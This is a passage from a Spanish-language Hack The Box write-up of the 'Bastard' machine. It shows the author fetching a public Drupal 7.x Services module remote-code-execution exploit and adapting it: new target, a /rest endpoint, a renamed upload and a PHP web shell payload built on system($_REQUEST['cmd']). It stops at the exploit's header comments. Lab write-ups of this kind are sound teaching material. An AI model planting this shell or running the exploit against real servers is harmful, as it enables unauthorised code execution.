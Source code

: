 Vemos un recurso interesante **Drupal 7.x Module Services - Remote Code Execution**, así que lo tratemos a nuestro entorno de trabajo, le modificamos el nombre a uno más descriptivo y procedemos a analizarlo.

```bash
❯ cd ../content/
❯ searchsploit -m php/webapps/41564.php
  Exploit: Drupal 7.x Module Services - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/41564
     Path: /usr/share/exploitdb/exploits/php/webapps/41564.php
File Type: ASCII text, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Bastard/content/41564.php


❯ ll
.rw-r--r-- root root 8.5 KB Thu Oct  7 00:40:03 2021  41564.php
❯ mv 41564.php drupal_rce.php
```

Analizando el exploit, vemos que necesitamos realizarle unos cambios para que se adapte a lo que estamos buscando:

- `$url = 'http://vmweb.lan/drupal-7.54'` lo cambiamos por `$url = 'http://10.10.10.9'`.
- `$endpoint_path = '/rest_endpoint'` si validamos el recurso, vemos que no existe; sin embargo, pensando un poco, vemos que busca el recurso `/rest_endpoint`, así que podríamos buscar por `/rest` el cual si existe.

![""](/assets/images/htb-bastard/bastard-rest.png)

- Vemos que el exploit define un nombre archivo el cual va a ser subido para inyectar nuestro código malicioso `'filename' => 'dixuSOspsOUU.php',`; aquí podriamos ponerle el nombre que nosotros queramos, como por ejemplo ***k4mishell.php***.
- A nivel de data, se tiene esto `'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'`; sin embargo, nosotros queremos utilizar una variable para poder ejecutar comandos; así que lo modificamos por `'data' => '<?php system($_REQUEST["cmd"]); ?>'`.

Realizando las modificamos, tenemos lo siguiente:

```php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
# 

# Initialization

```
